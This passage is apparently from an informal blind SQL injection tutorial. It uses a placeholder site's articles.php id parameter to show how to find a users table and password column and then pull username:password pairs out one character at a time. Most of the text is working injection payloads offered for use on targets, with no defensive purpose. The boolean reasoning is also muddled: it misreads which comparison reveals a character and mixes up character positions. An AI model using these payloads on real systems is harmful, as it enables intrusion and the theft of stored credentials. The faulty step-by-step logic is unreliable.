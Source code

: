 
and now if the function select do not work we should use subselect and we should testing if it work

[-] Testing if subselect works :

http://www.website.com/articles.php?id=3 and (select 1)=1 ( if the page load normaly the subselect works good)

and now we have to see if we have access to mysql.user

http://www.website.com/articles.php?id=3 and (select 1 from mysql.user limit 0,1)=1 (if it load normaly we have access to mysql.user)

now, we can checking table and column names

[-] Checking table and column names :

http://www.website.com/articles.php?id=3 and (select 1 from users limit 0,1)=1

if the page load normaly and no errors the table users exists

now we need column name

http://www.website.com/articles.php?id=3 and (select substring(concat(1,password),1,1) from users limit 0,1)=1

if the page load normaly and no errors the column password exists

now we have the table and the column , yeah, we can exploiting the vunlnerability now

http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>80

the page load normaly and no errors,so we need to change the 80 for having an error

http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>90

no errors ! we continu

http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>99

Yeah!! an error

the character is char(99). we use the ascii converter and we know that char(99) is letter 'c'

to test the second character we change ,1,1 to ,2,1

http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),2,1))>99

http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>99

the page load normaly

http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>104

the page loads normally, higher !!!

http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>107
